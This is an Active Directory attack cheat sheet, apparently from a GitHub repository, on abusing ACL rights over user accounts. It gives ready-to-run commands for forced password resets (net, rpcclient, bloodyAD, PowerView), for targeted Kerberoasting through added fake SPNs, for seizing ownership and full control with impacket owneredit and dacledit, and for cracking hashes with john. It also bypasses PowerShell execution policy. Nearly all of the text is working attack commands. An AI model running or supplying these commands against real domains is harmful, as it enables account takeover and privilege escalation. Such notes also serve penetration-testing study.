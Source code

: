 # ACLs/ACEs permissions on User

### ForceChangePassword

    net user USER PASSWORD /domain (Windows)

    net rpc password USER PASSWORD -S DC_FQDN (Linux)

### GenericAll / GenericWrite

#### 1) Windows net command

Change the password of a user

    net user USER PASSWORD /domain

#### 2) Linux Net RPC - Samba 

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP   

#### 3) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@9876"

#### 4) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 "Password@9876"

#### 5) Targeted Kerberoasting (add SPN)

    targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

#### 1) Enumerate interesting ACLs with powerview

    Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} 

#### Then:

    Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

    Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 6) Logon Script (Access)

#### 7) add Key Credentials (Shadow Credentials)

#### 8) Powerview

    $SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('domain.local\TARGET_USER', $SecPassword)

#### 9) Windows PowerShell

    $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### AllExtendedRights

#### 1) Linux Net RPC - Samba

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

#### 2) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 Ignite@987

#### 4) Powerview

    powershell -ep bypass
    Import-Module .\PowerView.ps1
    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### WriteOwner

#### 1) impacket-owneredit

Grant Ownership (owneredit), then assign Full Control (dacledit), then perform Kerberoasting or Password Change attacks (ForceChangePassword).

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

Then, you can do targeted Kerberoasting for example

    python3 targetedKerberoast.py --dc-ip 'DC_IP' -v -d 'domain.local' -u 'USER1' -p 'Password@1'

Crack hash

    john -w=/usr/share/wordlists/rockyou.txt hash

OR you can change the TARGET_USER's password

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Powerview

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'TARGET_USER' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET_USER" -PrincipalIdentity "USER1"

Now, do Kerberoast from a Windows Machine instead

    Set-DomainObject -Identity 'TARGET_USER' -Set @{serviceprincipalname='nonexistent/hacking'}
    Get-DomainUser 'TARGET_USER' | Select serviceprincipalname
    $User = Get-DomainUser 'TARGET_USER'
    $User | Get-DomainSPNTicket

OR change password

    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword
